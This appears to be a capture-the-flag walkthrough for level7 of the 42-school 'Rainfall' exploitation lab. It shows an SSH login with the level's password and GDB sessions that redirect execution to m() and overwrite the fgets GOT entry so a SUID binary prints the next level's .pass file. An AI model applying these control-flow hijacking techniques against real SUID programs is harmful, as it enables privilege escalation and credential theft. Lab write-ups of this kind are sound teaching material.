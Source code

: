 Login as `level7`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.0.19 -p 4242 -l level7
level7@192.168.0.19's password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
A `SUID` executable is located in the home directory.
```shell
level7@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```
```gdb
(gdb) info functions
[...]
0x080484f4  m
0x08048521  main
[...]
```
Examing binary with GDB shows that inside `main()` function it opens `/home/user/level8/.pass` file, then reads 68 bytes from the given stream and stores them in the string `c` defined as global variable.
On the other hand the content of `c` variable is printed inside `m()` function.

Function `m()` can be called inside GDB simply by changing `EIP` register pointing to start of `m()` function.
```gdb
(gdb) break *main+202
Breakpoint 1 at 0x80485eb
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485eb in main ()
(gdb) print $eip
$1 = (void (*)()) 0x80485eb <main+202>
(gdb) set $eip=0x080484f4
(gdb) continue
Continuing.
 - 1630930163

Program received signal SIGSEGV, Segmentation fault.
0x08049960 in c ()
```




0x0804a008 -> $esp+0x1c == str1
```gdb
(gdb) x/16x 0x0804a008

			            fnPtr
            str1[0]     str1[1]     str1[2]     str1[3]
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
            str1[4]     str1[5]     str1[6]     str1[7]
0x804a018:	0x41414141	0x41414141	0x41414141	0x00000000
			            fnPtr
            str2[0]     str2[1]     str2[2]     str2[3]
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
            str2[4]     str2[5]     str2[6]     str2[7]
0x804a038:	0x42424242	0x42424242	0x00000000	0x00020fc
```

Try to overwrite GOT entry of `fgets()` function
```gdb
(gdb) info functions
[...]
0x080484f4  m
[...]
(gdb) disassemble main
[...]
(gdb) break *0x080485eb
Breakpoint 1 at 0x80485eb
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485eb in main ()
(gdb) x/i $eip
=> 0x80485eb <main+202>:	call   0x80483c0 <fgets@plt>
(gdb) disassemble 0x80483c0
Dump of assembler code for function fgets@plt:
   0x080483c0 <+0>:	jmp    *0x8049918
   0x080483c6 <+6>:	push   $0x8
   0x080483cb <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb) x/wx 0x8049918						# Check referencing address
0x8049918 <fgets@got.plt>:	0x080483c6 
(gdb) set *0x8049918=0x080484f4				# Change value of address pointing from `fgets()` to `m()`
(gdb) x/wx 0x8049918						# Address of GOT entry successfully changed
0x8049918 <fgets@got.plt>:	0x080484f4
(gdb) continue								# Execution of `m()`
Continuing.
 - 1633277327
~~
[Inferior 1 (process 2678) exited normally]
```
